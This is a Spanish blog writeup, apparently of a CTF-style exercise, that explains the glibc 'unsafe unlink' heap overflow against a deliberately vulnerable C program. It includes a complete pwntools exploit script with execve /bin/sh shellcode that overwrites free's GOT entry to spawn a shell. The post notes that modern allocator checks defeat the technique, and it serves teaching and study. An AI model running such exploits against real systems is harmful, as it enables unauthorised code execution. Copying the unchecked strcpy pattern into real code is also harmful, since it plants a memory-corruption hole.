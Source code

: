 ```yaml
---
layout: post
title: Pwn UGR CTF
comments: true
categories: [Pwn, Writeups, SploitFUN]
---
```


Estudiando sobre Heap Overflows, llegué a la página de [sploitfun](https://sploitfun.wordpress.com/2015/02/26/heap-overflow-using-unlink/), donde se explicaba sobre una técnica que abusa el algoritmo para consolidar trozos al ser liberados en un heap. Me pareció interesante, por lo que hice esta versión simplificada y en castellano del post.

# Overview

Vamos a explotar una técnica de *Heap Overflow* conocida como ***unlink*** ó ***unsafe unlink***.

# Reconocimiento

Se nos da el siguiente programa:

```c
/* 
 Heap overflow vulnerable program. 
*/

#include <stdlib.h>
#include <string.h>

int main( int argc, char * argv[] )
{
        char * first, * second;

first = malloc( 666 ); /*[1]*/
second = malloc( 12 ); /*[2]*/
if(argc!=1) 
	strcpy( first, argv[1] ); /*[3]*/

free( first ); /*[4]*/
free( second ); /*[5]*/

return( 0 ); /*[6]*/
}
```

Podemos ver que en la línea 3 se produce un [[Heap Overflow]] ya que se copia el input del usuario en `first` sin ninguna comprobación. El heap se vería así:

![Image]({{ site.baseurl }}/images/posts/2024-10-21-Unlink-SploitFUN-1.png)

## Técnica [[unlink]]

> [_Unlink_](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_unlink_snip.c):  The main idea of this technique is to trick ‘glibc malloc’ to unlink the ‘second’ chunk. While unlinking GOT entry of free would get overwritten with shellcode address!! After successful overwrite, now when free is called by vulnerable program at line [5], shellcode would get executed. Not very clear? No problem, first lets see what ‘glibc malloc’ does when free gets executed.

Es decir, queremos hacer que el chunk `second` sea "unlinkeado", de forma que cuando se esté desenlazando, la entrada en la *GOT* de `free` se sobrescriba con un *shellcode* y al llamarse en la línea 5, se ejecute dicho shellcode.

### Explicación

Sin la influencia de un atacante, **free** hace lo siguiente (para chunks [*non mmaped*](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_free_snip.c#L10), es decir fruto de una llamada a `mmap`):

- Consolidar hacia detrás (**consolidate backwards**):
	- Comprueba si *el chunk previo está libre* - Si el actual tiene el bit `PREV_INUSE (P)` en 0. En nuestro caso no está libre (`first` tiene el bit activo). Por defecto, el chunk previo al primer chunk del heap tiene este bit activo aunque no esté libre.
	- *Si está libre*, se desenlaza (**unlink**) el chunk previo de su *bin*, se suman los tamaños del actual y el anterior, y se mueve el chunk pointer al chunk previo. En nuestro caso, no está libre, por lo que no se realiza esta operatoria.
- Consolidar hacia delante (**consolidate forward**):
	- Comprueba si *el siguiente chunk está libre* - Comprueba si el siguiente al siguiente tiene el bit `PREV_INUSE (P)` en 0, para ello avanza al siguiente chunk sumando `size` al chunk pointer, y repite la operación para llegar al siguiente. En nuestro caso, comprobará el bit del `top`, que dirá que el anterior (`second`) no está libre.
	- *Si está libre*, se desenlaza (**unlink**) el chunk siguiente de su *bin*, se suman los tamaños del actual y el siguiente. En nuestro caso, no está libre, por lo que no se realiza esta operatoria.
- Finalmente, en caso de realizarse una consolidación, se añade el resultado a la bin correspondiente.

# Explotación

Pongamos ahora, que mediante el [[Heap Overflow]] de la línea 3, un atacante sobrescribe las cabeceras de `second` de forma que quedan:

```
prev_size = PREV_INUSE bit a 0 (numero par)
size = -4
fd = dirección de free – 12
bk = dirección de un shellcode
```

Como hemos logrado manipular las cabeceras, al invocarse **free**, el comportamiento será diferente:

1. Como *no es mmaped*, trata de consolidar:
2. Consolidar hacia atrás:
	- Comprueba si el chunk previo está libre, en este casó lo está, pero al ser `first` el chunk siguiente al primer chunk del heap, tiene por defecto el bit `PREV_INUSE (P)` activado por defecto. Por tanto, no podemos consolidar hacia atrás.
3. Consolidar hacia delante:
	- Normalmente, el siguiente chunk al siguiente sería `top`. Sin embargo, como hemos sobrescrito el tamaño de `second` con `-4`, el siguiente chunk empezaría a partir de un offset de 4 bytes del `second`, tratando el campo `PREV_INUSE (P)` de `second` como el del siguiente chunk, como hemos puesto un valor par, interpretará que es 0, es decir que está libre.
	- Como está "libre", consolida hacia delante:
		1. Copia `fd` y `bk` de `second` en las variables `FD` y `BK`, en nuestro caso:  `FD = dirección de free - 12` y `BK = direccion de un shellcode`.
		2. `BK` se copia 12 bytes después de `FD`, en nuestro caso, apunta a la dirección en la *GOT* de *free*, de forma que en caso de llamar a *free*, se ejecutará el shellcode.
4. Finalmente se añade el chunk consolidado a una bin.

El heap después de introducirse los datos se vería:

![Image]({{ site.baseurl }}/images/posts/2024-10-21-Unlink-SploitFUN-2.png)

Sabiendo todo esto, podemos crear un script en python utilizando *pwntools*:

```python
#!/bin/python3
from pwn import *

# Dirección de la función 'free' en la GOT (obtenida con objdump)
FUNCTION_POINTER = 0x0804978c 
# Dirección de la variable 'first' en el ejecutable vulnerable
CODE_ADDRESS = 0x0804a008 + 0x10 

# Nombre del binario vulnerable
VULNERABLE = './vuln'
DUMMY = 0xdefaced
PREV_INUSE = 0x1

# Shellcode
shellcode = (
    b"\xeb\x0a"          # Jump 10 bytes
    b"ssppppffff"        # Si no hacemos este salto, la llamada a unlink nos corrompe el shellcode
    b"\x31\xc0"          # xor eax, eax
    b"\x50"              # push eax
    b"\x68\x2f\x2f\x73\x68"  # push '//sh'
    b"\x68\x2f\x62\x69\x6e"  # push '/bin'
    b"\x89\xe3"          # mov ebx, esp
    b"\x50"              # push eax
    b"\x89\xe2"          # mov edx, esp
    b"\x53"              # push ebx
    b"\x89\xe1"          # mov ecx, esp
    b"\xb0\x0b"          # mov al, 11 (syscall execve)
    b"\xcd\x80"          # int 0x80 (syscall)
)

# Conexión al binario vulnerable
io = process(VULNERABLE)

# Generar payload
payload = b""
payload += p32(DUMMY)  # fd of first chunk
payload += p32(DUMMY)  # bk of first chunk
payload += p32(DUMMY)  # fd_nextsize of first chunk
payload += p32(DUMMY)  # bk_nextsize of first chunk
payload += shellcode   # Copiar shellcode

# Padding
padding_length = 680 - 4*4 - (4*4 + len(shellcode))
payload += b"B" * padding_length

# Campos del segundo chunk
payload += p32(DUMMY & ~PREV_INUSE)  # prev_size of second chunk
payload += p32(-4)  # size of second chunk
payload += p32(FUNCTION_POINTER - 12)  # fd del segundo chunk
payload += p32(CODE_ADDRESS)  # bk del segundo chunk (dirección del shellcode)

# Enviar el payload
io.sendline(payload)

# Interactuar con la shell
io.interactive()
```

Si ejecutamos, veremos que somos capaces de spawnear una shell.

Sin embargo, a día de hoy, existen diversas protecciones que prevendrán este ataque:

- **Double free check**
- **Invalid next size**
- **Corrupted double linked list**

Por lo que aunque en sistemas antiguos podamos realizarlo, para implementaciones más modernas debemos utilizar técnicas más sofisticadas que trataremos en próximos posts. Si te ha interesado y quieres profundizar en el tema, te recomiendo leer el paper [Vudo malloc tricks](http://phrack.org/issues/57/8.html).